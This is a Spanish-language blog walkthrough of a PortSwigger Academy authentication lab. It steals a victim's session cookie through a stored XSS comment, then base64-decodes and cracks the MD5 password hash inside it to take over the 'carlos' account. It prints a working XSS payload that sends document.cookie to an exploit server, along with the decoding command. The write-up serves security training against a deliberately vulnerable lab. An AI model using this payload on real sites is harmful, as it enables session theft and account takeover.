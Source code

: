 +++
author = "Alux"
title = "Portswigger Academy Learning Path: Authentication Lab 11"
date = "2021-11-25"
description = "Lab: Offline password cracking"
tags = [
    "broken authentication",
    "portswigger",
    "academy",
    "burpsuite",
    "xss",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Offline password cracking

En este <cite>laboratorio[^1]</cite>la finalidad es ingresar con el usuario `carlos` el cual hay que robar la cookie y luego crackear la contrasena en offline para poder entrar al sistema con el usuario carlos para que al resolver el lab se debe de eliminar el usuario carlos y estara resuelto.

## Reconocimiento

Lo primero que tenemos es que podemos ingresar con el usuario `wiener`, lo primero que notamos es que podemos escribir comentarios en el sistema, y ahi es donde tenemos una idea de que se puede ingresar codigo javascript para aprovecharse por medio de javascript robar una cookie si no se cuenta con el header de `httpOnly`. La forma de ataque es el siguiente:

![Ataque diagramado](ataque.png)

## Explotacion

En este caso, aprovechando que ya hemos iniciado sesion, colocamos el siguiente comentario, ya que el sistema nos da un exploit server en el cual podemos ver los logs. Lo que comentamso seria el siguiente codigo, que lo que hara es inyectar el codigo javascript que a su vez lo que hara es redirigir a la siguiente web con el valor de la cookie en la url para posteriormente nosotros tomarla.

```javascript
<script>document.location='https://exploit-aca31fc11ef256eac0eb50c801be00df.web-security-academy.net/exploit?c='+document.cookie</script>
```

![Comentario xss](comentario.png)

Luego de que hemos inyectado el codigo debemos quedarnos a la espera de la solicitud de la victima, y en el log estara, en este caso esta `/exploit?c=secret=...` que es el valor de la cookie.

![Log del servidor web atacante](log.png)

Al notar la cookie que tenemos vamos a decodificar la cookie desde bash:

```bash
echo "Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz" | base64 -d
carlos:26323c16d5f4dabff3bb136f2460a943
```
Ahora lo que haremos es descifrar el valor de `26323c16d5f4dabff3bb136f2460a943`

![Descifrar contrasena MD5](md5.png)

Finalmente, ya que tenemos la contrasena entramos con las credenciales de carlos y eliminamos la cuenta para resolver el lab

![Laboratorio resuelto](resuelto.png)

Con esto ya muestra que se ha resuelto el lab.

[^1]: [Laboratorio](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)